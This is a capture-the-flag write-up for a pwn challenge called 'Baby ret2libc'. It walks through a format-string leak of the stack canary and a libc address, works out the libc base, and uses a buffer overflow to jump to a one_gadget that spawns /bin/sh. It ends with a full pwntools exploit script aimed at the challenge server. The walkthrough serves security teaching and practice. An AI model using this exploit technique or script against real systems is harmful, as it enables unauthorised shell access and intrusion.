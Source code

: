# Baby ret2libc
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-125-orange)

## Description
```
placeholder - problem hidden
```

## Solution
This question is basically identical to [Baby Cookie](https://github.com/jdabtieu/LyonCTF-white_flag/blob/main/babycookie.md) except that instead of returning to the print_flag function, we need to return to libc instead. To determine the stack offsets used in this problem, refer to that writeup.

The stack cookie can be leaked the same way, and instead of leaking the address of main, we want to leak any address inside libc. Checking the stack, we see that two entries below the cookie, is a pointer to __libc_start_main+243. Score!
```
0088| 0x7ffdec2dcf88 --> 0xf9838f81ac4f2700 
0096| 0x7ffdec2dcf90 --> 0x0 
0104| 0x7ffdec2dcf98 --> 0x7f7a58ef40b3 (<__libc_start_main+243>:       mov    edi,eax)
```

Now that we know this, we can use <https://libc.blukat.me> to help us find the libc offset.

Testing `%19$p` against the server results in an address that ends in `f0b3` (your first digit might be different). While PIE does randomize the location of code, all segments must begin at an address that ends in `000`, including libc itself. Thus, if we calculate `0xf0b3 - 243`, we get `0xefc0`, meaning that [__libc_start_main exists at offset `fc0`](https://libc.blukat.me/?q=__libc_start_main%3Afc0&l=libc6_2.31-0ubuntu9.2_amd64).

This corresponds to `libc6_2.31-0ubuntu9.2_amd64`, meaning that the server runs this version of libc. We should make sure that our program also uses same version. If not, we'll have to patch it to use the same version.

```
$ ldd babyret2libc 
        linux-vdso.so.1 (0x00007ffe6bd8c000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fdc22fbb000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fdc231bf000)
$ /lib/x86_64-linux-gnu/libc.so.6
GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.2) stable release version 2.31.
```

Luckily for me, I run the same version of libc, so no modifications need to be made.

The website also tells us that __libc_start_main is 0x026fc0 bytes past the start of libc, meaning that the libc base address will be our leaked address - 243 - 0x026fc0.

Once we know that, we can use the buffer overflow to jump to a gadget that gives us a shell. Using one_gadget, I was able to find a gadget that works as long as the r15 and rdx registers are null (0), which is true for this program.
```
# 0xe6c81 execve("/bin/sh", r15, rdx)
[----------------------------------registers-----------------------------------]
...
RDX: 0x0 
...
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x5609ef104360 <main+343>:   je     0x5609ef104367 <main+350>
   0x5609ef104362 <main+345>:   call   0x5609ef1040c0 <__stack_chk_fail@plt>
   0x5609ef104367 <main+350>:   leave  
=> 0x5609ef104368 <main+351>:   ret    
```

The final exploit will consist of these steps:
1. Leak canary and __libc_start_main+243
2. Calculate libc base
3. Stack overflow to libc base + 0xe6c81, making sure to keep the stack canary intact
4. Win!

```py
# %19$p - __libc_start_main+243
# %17$p - canary

# 0xe6c81 execve("/bin/sh", r15, rdx)

from pwn import *

#p = process("./babyret2libc")
p = remote("17fae81.0x16.ink", 32760)

pay = b'\n'*4 + b'%19$p %17$p'

p.sendline(pay)
p.recvuntil(b'name?\n')
p.recvuntil(b'Hi ')

addrs = p.recvuntil(b'\n')[:-1].split(b' ')
libc_start_main_243 = int(addrs[0], 16)
canary = int(addrs[1], 16)

log.info("Canary: " + hex(canary))
log.info("__libc_start_main+243: " + hex(libc_start_main_243))

libc_base = libc_start_main_243 - 243 - 0x026fc0
assert(libc_base & 0xfff == 0)          # gotta make sure libc base ends in 0x000, otherwise we made a mistake
log.info("libc base: " + hex(libc_base))
gadget = libc_base + 0xe6c81
log.info("gadget: " + hex(gadget))

pay = b'A'*8*9 + p64(canary) + p64(0) + p64(gadget) # 9 stack entries of garbage + canary + garbage + give us shell!
p.sendline(pay)
p.interactive()
```


Flag: `placeholder - problem hidden`
